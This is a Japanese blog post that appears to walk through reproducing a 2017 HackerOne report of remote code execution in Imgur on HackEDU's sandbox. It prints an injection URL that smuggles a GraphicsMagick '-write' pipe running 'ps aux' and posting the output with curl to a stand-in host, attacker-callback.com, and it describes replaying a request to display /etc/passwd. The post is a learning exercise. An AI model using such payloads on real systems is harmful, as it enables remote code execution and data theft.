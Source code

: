 ```yaml
---
lang: ja
---
```


# HackerOneに報告された脆弱性をHackEDUで再現する

<time datetime="2019-03-08">2019年3月8日</time>

---

サイバーセキュリティに関する体験型学習サービスを提供する「[HackEDU](https://hackedu.io/)」が[HackerOneと提携し、過去に報告された脆弱性を再現できるサンドボックス環境をリリースした](https://www.hackerone.com/blog/Test-your-hacking-skills-real-world-simulated-bugs)。HackEDUの無料アカウントを作成するだけで、HackerOneに報告された5つの脆弱性のサンドボックス環境を利用できる。

今回はバグハンターのneex氏が2017年に報告したImgurという画像共有サイトでのRCE（[#212696](https://hackerone.com/reports/212696)）を取り上げる。neex氏が脆弱性を発見した際の手順を再現しながら詳細を学んでいく。

## ImgurでのRCEの再現

HackEDUの利用者はブラウザからサンドボックス環境にアクセスし、ページ内に用意された仮想ブラウザと仮想プロキシを使って脆弱性を再現する。以下のページが[ImgurでのRCEのサンドボックス環境](https://hackedu.io/hacktivity/5f8e247b-98bc-4b7a-aa97-472dcc34a6f8)である。仮想ブラウザ上の1つ目のタブにImgurを再現したImgerというサイトが、2つ目にコールバックを確認するためのタブが開かれている。

<figure><img src="/assets/2019/hackedu/top.webp" width="770" height="499" decoding="async" alt="" /></figure>

neex氏のレポートによると脆弱性は画像編集機能で見つかっている。Imgurでは画像処理ツールとして人気の高いImageMagickとGraphicsMagickのどちらかが利用されているとneex氏は推測し、どちらのツールにも存在する `-rotate` オプションを用いて調査を始めている。

サンドボックス環境では画像編集時のHTTPリクエストがPOSTメソッドで送られるが、GETメソッドに変更しても問題なく処理される。今回はレポートを忠実に再現するため、仮想プロキシでインターセプトしたHTTPリクエストをGETメソッドに変更した上でパラメータの値を書き換える。

<figure><img src="/assets/2019/hackedu/intercept.webp" width="770" height="392" decoding="async" alt="" /></figure>

Imgurでは画像編集時に送信される `y` パラメータの値を画像処理ツールのコマンドライン引数に挿入していたため脆弱性が生じた。サンドボックス環境でも `y` パラメータの値に ` -rotate 90` を追加すると画像が90度回転する。

<figure><img src="/assets/2019/hackedu/rotate.webp" width="770" height="396" decoding="async" alt="" /></figure>

さらなる調査の結果、ImgurではGraphicsMagickが利用されているとneex氏は確信し、`-write` オプションで任意のコマンドを実行できる仕様を用いてRCEを実証した<sup id="f1">[¹](#fn1)</sup>。PoCでは `y` パラメータから挿入した `ps` コマンドの実行結果を `curl` コマンドで外部のサーバーへ送信している。

サンドボックス環境では `http://attacker-callback.com:9000` へのコールバックを仮想ブラウザの2つ目のタブで確認できる。2つ目のタブを事前に開いてリッスン状態にしてから、1つ目のタブで以下のURLにアクセスすると `ps` コマンドの実行結果を受け取れる。実際の環境ではスペース（%20）を挿入できなかったためか、neex氏は `${IFS}` を代用して文字を区切っている<sup id="f2">[²](#fn2)</sup>。

hxxp://imger.com/edit/process?imageid=cd4caa87977d1469cfeedf5cce8e2992.jpg&a=crop&x=95&y=41%20-write%20|ps${IFS}aux|curl${IFS}hxxp://attacker-callback.com:9000${IFS}-d${IFS}@-&w=768&h=328&random=asdf

<figure><img src="/assets/2019/hackedu/callback.webp" width="770" height="315" decoding="async" alt="" /></figure>

## HackEDUでのHTTPリクエストの再送

今回取り上げた脆弱性はGETパラメータでも再現できたため、仮想ブラウザのアドレスバーからパラメータ操作が可能であった。しかしPOSTパラメータでの脆弱性を検証する場合、HTTPリクエストを何度もインターセプトして書き換えることになる。サンドボックス環境の仮想プロキシにはHTTPリクエストの再送機能が搭載されていないため、愛用のローカルプロキシでの再送を試みる。

サンドボックス環境とはいえ仮想ブラウザから発生するHTTPリクエストはHackEDUのサーバーに送信される。そのためサンドボックス環境のページを開いているブラウザでローカルプロキシを経由すればHTTPリクエストを操作できる。例えばBurp SuiteのRepeaterで以下のHTTPリクエストを再送すると、仮想ブラウザの2つ目のタブに `/etc/passwd` の内容が表示される。

<figure><img src="/assets/2019/hackedu/burp.webp" width="770" height="235" decoding="async" alt="" /></figure>

## 所感

脆弱性のレポートを読むだけと、実際に再現まで確認するとでは学びの量が違う。レポートに記載されていない別のパターンを試すことで新たな発見にもつながるし、記憶にも残りやすい。ソフトウェア製品の脆弱性の場合、修正前の古いバージョンを入手できれば再現は可能である。しかしWebアプリケーションの脆弱性の場合、サイト運営者でなければ修正後の再現は極めて難しい。HackEDUのようなサービスにより実在した脆弱性を容易に再現できるようになれば、バグハンターだけでなく開発者の学びにも役立つだろう。

今回は取り上げなかったが、HackEDUはWebアプリケーションの各種脆弱性のサンドボックス環境やCTF形式の問題も提供している。[無料アカウントではSQLインジェクションのみ](https://hackedu.io/demo)だが、脆弱性の再現から各プログラミング言語での修正まで体験できるコースもある。また年間$750の有料アカウントになれば[CVEが割り振られたソフトウェア製品の脆弱性](https://hackedu.io/vulnerabilities)や、バッファオーバーフローのような脆弱性のサンドボックス環境も利用できるようになる。有料アカウントは7日間の無料体験ができるので、まずは試用してから購入を検討したい。

---

<sup id="fn1">[¹](#f1)</sup> http://www.graphicsmagick.org/GraphicsMagick.html#details-write  
<sup id="fn2">[²](#f2)</sup> https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution

